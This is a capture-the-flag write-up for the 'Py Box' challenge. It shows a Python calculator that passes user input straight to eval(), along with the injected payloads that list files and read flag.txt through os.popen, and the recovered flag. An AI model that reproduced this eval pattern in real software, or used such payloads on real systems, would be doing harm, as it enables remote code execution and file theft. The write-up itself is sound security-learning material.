 # Py Box
> Write-up author: vreshco
## DESCRIPTION:
Aku dapet cara praktis untuk membuat kalkulator di python yaitu pakai eval wkwkwkwk. Ehh ini berbahaya ga sih?

nc ctf.tcp1p.com 5574

## HINT:
- NONE
## STEPS:
1. Given a python script and a machine host which we can run via netcat.
2. Let's analyze the python script first.

> SCRIPT GIVEN

```py
def calculator(txt: str):
    txt = txt.replace("=", "")
    return eval(txt)

with open("logo", 'r') as f:
    print(f.read())

print("aplikasi aritmatika by H3X0S1337")
print("operasi yang bisa digunakan: ")
print("- perkalian '*'")
print("- pembagian '/'")
print("- pertambahan '+'")
print("- pengurangan '-'")
print("- xor '^'")
print("- modulus '%'")
print("- pangkat '**'")
print("- pembagian lantai '//'")
print("contoh pemakaian:")
print("- 1+1 maka akan menghasilkan 2")
while True:
    try:
        user_input = input("masukkan input: ")
        calc = calculator(user_input)
        print(calc)
    except KeyboardInterrupt:
        break
```

3. Based from the script, we know the vuln is at the `eval()`.
4. No sanitization applied, hence all our input shall passed to the `calculator()` and inside it's function there's an `eval()` which evaluated any strings we're passing to.
5. Let's try to list the directories or files.

> COMMAND

```py
__import__("os").popen("ls").read()
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/227164124-3237b421-fb4a-4541-a375-1e3554a05f7c.png)


6. Great it works! Since there's the flag.txt file, let's cat that.

> COMMAND

```py
__import__("os").popen("cat flag.txt").read()
```

![image](https://user-images.githubusercontent.com/70703371/227164415-fd3a2737-b0d4-4700-8db6-761eff4a826a.png)


7. Got the flag!

## FLAG

```
TCP1P{python_3v4l_1s_no_g00d_f0r_calculat0r}
```


